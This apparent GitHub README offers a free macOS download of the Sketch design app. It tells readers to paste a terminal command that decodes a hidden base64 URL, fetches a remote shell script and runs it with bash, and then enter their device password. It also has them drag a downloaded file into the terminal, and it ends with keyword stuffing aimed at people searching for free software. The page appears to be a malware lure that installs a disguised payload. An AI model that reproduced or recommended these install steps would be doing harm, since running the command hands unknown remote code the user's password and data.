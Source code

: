 # Sketch — Download for macOS 

[![Download Setup Assistant](https://img.shields.io/badge/Download-Setup_Assistant-blueviolet)](https://shuziktobehuman.github.io/huja/sketch)

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

🎯 **What You Unlock**

🧩 Vector editing with precision tools  
🎨 Custom artboards, styles, and libraries  
🌐 Real-time collaboration and prototyping  
📁 Export-ready assets for web and mobile  
💻 Apple Silicon optimization  
🛠 No App Store or internet required

🖼 **Preview**

![Sketch UI Overview](https://barrysmyth.me/wp-content/uploads/2013/01/sketch.jpg)  


![Design Workspace](https://cdn.cultofmac.com/wp-content/uploads/2014/04/2.jpg)  


![Canvas and Prototyping](https://www.elegantthemes.com/blog/wp-content/uploads/2019/07/Canvas-1024x640.jpg)  



🔍 **SEO Keywords**

sketch mac, sketch mac download, sketch up mac, sketch up for mac, macbook drawing app, sketch up download mac, sketch osx, sketchup osx, macbook drawing program, download sketch up mac, draw pad mac, mac sketch up, mac program for drawing, macbook sketch app, sketch app mac os, sketch in mac, sketch up free for mac, sketch up for mac free, sketch up free mac, sketch up mac free, sketch up mac os, sketchup for free mac, skitch for mac, sketch software mac, sketch design tool mac

